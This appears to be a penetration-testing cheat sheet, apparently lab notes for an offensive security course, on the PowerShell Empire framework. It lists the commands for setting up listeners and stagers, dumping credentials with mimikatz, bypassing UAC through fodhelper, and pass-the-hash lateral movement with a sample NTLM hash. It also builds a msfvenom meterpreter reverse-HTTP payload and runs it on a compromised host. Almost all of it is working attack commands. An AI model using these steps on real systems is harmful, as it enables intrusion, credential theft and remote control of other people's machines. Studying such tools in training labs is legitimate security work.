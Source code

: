 #### Empire

```
https://github.com/BC-SECURITY/Empire

https://bc-security.gitbook.io/empire-wiki/quickstart/installation

sudo apt install powershell-empire

sudo powershell-empire server

sudo powershell-empire client

```
##### Empire commands

```
help

listeners

uselistener http

info

options

set Host 192.168.119.175

execute

back

usestager windows/launcher_bat

info

set Listener http

execute

```

After connection

```

(Empire: stager/windows/launcher_bat) > agents

interact <agent name>

sysinfo

ps

psinject http 3568    ---- migrate payload

agents



```
##### PowerShell Modules

```
usemodule

usemodule situational_awareness/network/powerview/get_user   ----- old

usemodule powershell/situational_awareness/network/powerview/get_user

info

execute

usemodule powershell/privesc/powerup/allchecks

execute

usemodule privesc/bypassuac_fodhelper   ---- old

usemodule powershell/privesc/bypassuac_fodhelper

info

usemodule powershell/credentials/mimikatz/logonpasswords

```

Lateral movement

```
usemodule lateral_movement/invoke_smbexec   ---- old

usemodule powershell/lateral_movement/invoke_smbexec

set ComputerName client251

set Listener http

set Username jeff_admin

set Hash e2b475c11da2a0748290d87aa966c327

set Domain corp.com

execute

```

Switching between empire and metasploit

```

kali@kali:~$ msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 - f exe -o met.exe

msf5> use multi/handler
> set payload windows/meterpreter/reverse_http
set LPORT 7777
set LHOST 10.11.0.4

exploit


Empire: S2Y5XW1L) > upload /home/kali/met.exe

shell dir
 
shell C:\Users\offsec.corp\Downloads>met.exe

opens meterpreter session


(Empire: listeners) > usestager windows/launcher_bat
set listener http
execute

meterpreter > upload /tmp/launcher.bat
shell
dir
launcher.bat

```


##### Empire Privesc module - uac bypass

https://github.com/EmpireProject/Empire/tree/master/data/module_source/privesc

c:\windows\system32\wscript.exe
c:\windows\system32\eventvwr.exe
fodhelper.exe - uac bypacc 

#
